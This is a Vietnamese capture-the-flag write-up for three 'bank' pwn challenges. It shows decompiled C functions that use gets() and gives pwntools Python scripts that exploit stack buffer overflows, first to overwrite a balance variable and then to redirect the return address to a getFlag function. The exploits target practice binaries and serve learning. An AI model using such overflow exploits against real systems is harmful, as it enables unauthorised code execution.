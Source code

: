 # **bank 1**

## bài này không có file thực thi nên mình thử lỗi bufferoverflow nhập một số chữ A và đã leak được luôn flag
### (do khi viết write up server đã đóng nên không có hình minh họa)


# **bank 2**

## Task
nc 61.28.237.24 30203

file: bank2
## Solution

### load file bank2 lên IDA pro và phân tích

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setbuf(stdout, 0);
  Register();
  puts("[+] Good bye!");
  return 0;
}
```

```c
void Register()
{
  char name[64]; // [esp+Ch] [ebp-4Ch] BYREF
  int balance; // [esp+4Ch] [ebp-Ch]

  balance = 0;
  printf("[+] Please enter your name: ");
  gets(name);
  printf("[+] Thanks for the registration, your balance is %d.\n", balance);
  if ( balance == 0x66A44 )
    getFlag();

```

```c
void getFlag()
{
  system("cat flag.txt");
}
```
Hàm `main` sẽ gọi hàm `Register`, nên ta sẽ tập trung phân tích hàm này

để `Register` gọi được hàm  `getFlag` in ra flag thì biến `balance` phải bằng `0x66A44` 

Vào stack của hàm này để xem

![image](https://user-images.githubusercontent.com/31529599/120002219-ca34fa00-bffe-11eb-91f7-4515849f7060.png)

ta thấy biến name nhập vào là chuỗi và có địa chỉ lớn hơn địa chỉ của biến `balance`. Nên bài này chỉ đơn giản là bufer overflow để ghi đề local stack

## Sử dụng pwntool python để khai thác
### vì server đã đóng nên mình sẽ khai thác local với file flag.txt nội dung HCMUSCTF{bank2}

```python
from pwn import *

binary = context.binary = ELF('./bank2')

p = process('./bank2')
#p = remote('61.28.237.24','30203')

payload = b'A'*(0x4c-0xc)

payload += p32(0x66A44)

p.sendline(payload)

f = open('solve.txt','wb')
f.write(payload)

p.interactive()
```
với `0x4c-0xc` là khoảng cách giữa biến `name` và biến `balance`

# Chạy script python
![image](https://user-images.githubusercontent.com/31529599/120003897-5c89cd80-c000-11eb-9aa7-5f6883126e06.png)

Xong !


# **bank 3**

## Task:
nc 61.28.237.24 30204
File: bank3

## Solution
Tương tự như `bank2` bài này cũng tập trung phân tích hàm `Register`

```c
void Register()
{
  char name[64]; // [esp+Ch] [ebp-4Ch] BYREF
  int balance; // [esp+4Ch] [ebp-Ch]

  balance = 0;
  printf("[+] Please enter your name: ");
  gets(name);
  printf("[+] Thanks for the registration, your balance is %d.\n", balance);
}
```
```c
void getFlag()
{
  system("cat flag.txt");
}
```

Bài này thì hàm `Register` không trực tiếp gọi hàm `getFlag` nên chúng ta sẽ thực hiện ghi đè địa chỉ trả về của hàm `Register` này thành địa chỉ của hàm `getFlag` để chương trình gọi hàm `getFlag`

## Exploit (code python)
![image](https://user-images.githubusercontent.com/31529599/120053869-d8166980-c056-11eb-9acf-c403cfc543fa.png)

```python
from pwn import *

binary = context.binary = ELF('./bank3')

#p = remote('61.28.237.24','30204')
p = process('./bank3')

payload = b'A'*(0x4c+0x4)
payload += p32(binary.sym.getFlag)
p.sendline(payload)

p.interactive()
```

với `0x4c+0x4` và khoảng cách giữa biến `name` với return address

# Run scripts
Khi biết write up thì server đã đóng nên mình tạo 1 file flag.txt nội dung HCMUSCTF{bank3} để khai thác local
![image](https://user-images.githubusercontent.com/31529599/120053945-5410b180-c057-11eb-9f10-13bfc1baa3fb.png)

Thành công!



